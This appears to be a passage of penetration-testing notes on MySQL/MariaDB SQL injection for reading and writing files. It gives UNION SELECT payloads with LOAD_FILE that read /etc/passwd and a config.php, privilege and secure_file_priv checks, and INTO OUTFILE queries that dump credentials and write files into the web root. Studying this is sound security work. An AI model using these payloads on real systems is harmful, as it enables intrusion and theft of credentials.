 The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files.

```sql
SELECT LOAD_FILE('/etc/passwd');
# Example of the payload in an UNION attack:
# cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
# Another example:
# cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -

```


**Write Files. To be able to write files to the back-end server using a MySQL database, we require three things:**

**1.** User with `FILE` privilege enabled. If our user is root:

```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

**2.**  MySQL global `secure_file_priv` variable not enabled

```sql
SHOW VARIABLES LIKE 'secure_file_priv';

# Final SQL query
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

# In an example of an UNION query attack:
# cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

```

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege. However, `MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings.

**3.**  Write access to the location we want to write to on the back-end server. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';

# This will create a test.txt file owned by the mysql user
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';

# Example in an UNION injection attack:
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
